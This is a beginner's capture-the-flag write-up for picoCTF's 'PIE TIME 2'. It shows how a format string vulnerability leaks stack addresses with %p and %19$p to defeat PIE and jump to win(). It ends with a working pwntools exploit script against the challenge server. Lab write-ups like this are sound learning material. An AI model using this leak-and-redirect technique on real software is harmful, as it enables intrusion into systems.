


# picoCTF PIE TIME 2


## Description:
[https://play.picoctf.org/practice/challenge/491?category=6&page=1](https://play.picoctf.org/practice/challenge/491?category=6&page=1)


### Downloaded the source code and the binary, and changed the binary to an executable.

```bash
wget <url_of_sourcecode>
wget <url_of_binary>
```
```bash
sudo chmod +x <binary_file>
```

### Ran the binary, and it asked me to enter my name as input.


### I entered random characters and it returned the same characters as output, and just like the previous challenge [(Pie Time)](https://github.com/Servant0fGod/Hacking-Notes/blob/main/Reverse-Engineering_And_Binary-Exploitation/Memory-Addresses/picoCTF-PIE-TIME.md), the program asked me to enter an address to jump to. I entered a random value and it exited.


### I opened the source code in VScode to check it out, and again there's a win() function that doesn't get called in main().

#### win()


#### main()


### There's also a key function, call_functions() that gets called in main(). This is the function responsible for: prompting me to enter my name, returns the name as output, asks me to enter an address which triggers win() if correct. Having familiarity with C, I immediately noticed that the printf() function had no format specifiers in it, and that it directly passes the input string variable as the argument without any restrictions.


### After some research, this is called the Format String Vulnerability, that allows the attacker to leak data from the stack if they control the argument of printf(). Passing %x.%x.%x.%x to the input would print back four hexadecimal values from the stack.


#### Materials I've read through:

- **[https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)**

- **[https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)**

- **[https://www.geeksforgeeks.org/format-specifiers-in-c/](https://www.geeksforgeeks.org/format-specifiers-in-c/)**

- **[https://ctf101.org/binary-exploitation/what-is-the-stack/](https://ctf101.org/binary-exploitation/what-is-the-stack/)**

- **[https://sourceware.org/gdb/current/onlinedocs/gdb.html/](https://sourceware.org/gdb/current/onlinedocs/gdb.html/)**

### Knowing that I needed an address, I went ahead an tried %x and %p


#### %x:


#### %p:


### I tried entering a bunch of different addresses that the program output for me but none of them worked, the program kept crashing.


### I loaded the program using gdb to see the addresses and the offset between main() and win()

```bash
gdb ./vuln
```

```bash
(gdb) disassemble main
```

```bash
(gdb) disassemble win
```

### Okay so main() is at 0x1400, win() is at 0x136a and the offset between them is 150 (0x96 in hex), Just like the previous challenge.


#### Address of main()


#### Address of win()


#### Using python to calculate the offset

```bash
python -c "print(0x1400 - 0x136a)"
```


### Now all I need is to find out main()'s address at runtime since PIE is enabled, and subtract 150 from it to get win()'s address. while trying to find an address that ended with 400 by leaking addresses from the stack, I found the address: 0x5603d9e93441 ending with 441, which is the closest I can find.


### Looking at the disassembled main() function in gdb, I found that the address ending with 441 belonged to the assembly instruction `mov $0x0,%eax` in main().


### Now I need to:

- **connect to the remote server.**

- **leak the address of the mov instruction.**

- **replace the last two digits (41) with 00 to make it 400 in order to get the runtime address of main().**

- **then I would be able to get the runtime address of win() by subtracting 150 from main().**

#### Also by reading through the Format String Vulnerability articles, I found out that I can index between the values I'm leaking by using the syntax `%n$p` where "n" is the index so, 19th position in my case.


```bash
nc <target_address> <target_port>
```

### By connecting and entering `%19$p` as input, I got the address 0x5bca88223441 (the runtime address for the assembly instruction `mov $0x0,%eax` in main()).


### Replaced the last two digits with 00 making it 0x5bca88223400 and subtracted 150 from it and got 0x5bca8822336a (runtime address of win())

```bash
python -c "print(hex(0x5bca88223400 - 0x96))"
```



### Flag obtained!


## Conclusion:

- **learned about the format string vulnerability, and ways to exploit it.**

- **Got introduced to GDB the gnu debugging tool, and how to read  x86_64 assembly code (AT&T Syntax).**
- **Learned basic concepts of the stack and stack frames.**

### Also, as a beginner I wanted to start learning python scripting so, I tried to craft this simple script using python's [Pwntools](https://github.com/Gallopsled/pwntools) library, that lets me get the flag with one command.


<details>
<summary><b>Script trial and error</b></summary>

### Messing around with digits



### Got the leaked addresses however, I needed to use the .split() function to use the for loop effectively


### Added split()


### Testing the for loop


### Replacing the last two digits and isolating main's address


### Calculating win's address and checking it's output


### Converting the result to a hex string


### Encoding the hex string into a bytes string (raw binary data) using `.encode()` and checking the output 


### It seems that `"%p " * 30` is causing the program to crash


### Looking at previous output to confirm the crash


### Checking the C code again, the space being allocated for the input string is 64 bytes, and the fgets()' restriction is set to 64 as well. And since "%p " times 30 is 90 bytes, this is probably whats causing the crash


### So I went ahead and changed it to `"%p " * 20`, equal to 60 bytes


### Whoops, typo


### Fixed the typo and ran the script, and seems like it's working just fine


### Time to change "process" to "remote" to test if it actually gets the flag via connecting to the target machine... which worked as intended and got me the flag


### Looking at proper for loop syntax, I realized that I don't need to use "i" and "enumerate()" unless I wanted to print index values. So I changed it to `for leak in leaked_addresses`


</details>

---

```python
from pwn import *


program = remote("<target_addresss>", <target_port>)


program.sendlineafter(b"name:", b"%p " * 20)


leaked_addresses = program.recvline().decode().split()

for leak in leaked_addresses:
    if leak.startswith("0x") and leak.endswith("441"):
        main = leak[:-2] + "00"

win = hex(int(main, 16) - 150)

win = win.encode()

program.sendlineafter(b"12345:", win)

program.interactive()

```


---